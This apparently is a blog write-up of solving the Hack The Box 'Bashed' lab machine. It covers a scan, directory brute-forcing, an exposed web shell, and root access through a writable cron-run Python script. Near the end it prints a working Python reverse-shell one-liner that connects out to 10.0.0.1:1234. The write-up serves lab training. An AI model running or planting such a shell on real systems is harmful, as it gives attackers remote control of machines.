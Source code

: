 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy,sudo,cron]
layout: post
categories: HackTheBox OSCP-Machines
---
```


![](/img/htb-bashed/bashed1.png)

We are going to pwn Bashed from Hack The Box. Bashed is easy level linux machine.
Let's get started.

Link : <https://www.hackthebox.eu/home/machines/profile/118>

## Enumeration

Lets Begin with our Initial Nmap Scan.

```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell. We can run dirbuster or gobuster to find these directories with wordlists.
![](/img/htb-bashed/bashed2.png)

## GoBuster
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/10 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/10 00:29:21 Finished
===============================================================
```

We found lot of directories to check out and also we have the source code available.

While checking the ``/dev`` there is an ``phpbash.php``<br/>
![](/img/htb-bashed/bashed3.png)


Checked ``/home`` and found 2 users ``arrexel`` and ``scriptmanager`` 
Also found the ``user.txt``.

## Getting Reverse Shell

Now its time to get reverse shell to get inside the machine

Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine <br/>
![](/img/htb-bashed/bashed4.png)

## Privilege Escalation

Like always I started with ``sudo -l``<br/>
![](/img/htb-bashed/bashed5.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](/img/htb-bashed/bashed6.png)

Now time to get root, I uploaded my Linux Enumeration Script LinEnum.sh and linpeas.sh and found some writeable scripts available. 

Checked out that there is a cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

So we can see the command running in the cron.

```
 /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

![](/img/htb-bashed/bashed7.png)

I edited the script and put a reverse shell to get shell back as root.
 

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![](/img/htb-bashed/bashed8.png)

We Rooted this Machine! 
